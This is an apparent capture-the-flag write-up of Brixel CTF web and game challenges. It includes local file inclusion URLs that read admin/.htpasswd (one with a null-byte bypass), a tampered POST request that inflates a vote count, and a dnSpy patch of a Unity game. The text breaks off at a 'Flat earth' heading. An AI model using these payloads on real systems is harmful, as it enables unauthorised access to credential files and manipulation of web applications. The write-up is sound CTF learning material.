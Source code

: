 ![tape]({{ site_url }}/assets/brixel/tape.png)


## Cookieee!

This is a Unity game. Reading instructions from: [Hacking Unity](https://www.unknowncheats.me/forum/unity/285864-beginners-guide-hacking-unity-games.html)
Open the assebmly with dnSpy and locate cookieScript which has the insane score requirement. Reduce it to 10 and compile + save the dll.
![cookie]({{ site_url }}/assets/brixel/cookies.png)

 Run the program and play the game until you get the flag.

## Pathfinders #1

There is an unsafe include that allows inclusion of other pages by manipulating the url:

```
view-source:http://timesink.be/pathfinder/index.php?page=admin/.htpasswd
```

## Pathfinders #2

The same unsafe include but with file name protection. Bypass using null byte:

```
http://timesink.be/pathfinder2/index.php?page=admin/.htpasswd%00.php
```

## SnackShack awards

The website relies on client side validation. Capture the request with Burpsuite and add 5000 votes before forwarding the request to get the flag.

```
POST /snackshackaward/stemmen.php HTTP/1.1
Host: timesink.be
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: fi-FI,fi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 86
Origin: http://timesink.be
DNT: 1
Connection: close
Referer: http://timesink.be/snackshackaward/
Upgrade-Insecure-Requests: 1

score_bammens=0&score_omejan=0&score_fontainas=0&score_tpleintje=5000&score_frietuurtje=0
```

## Flat earth
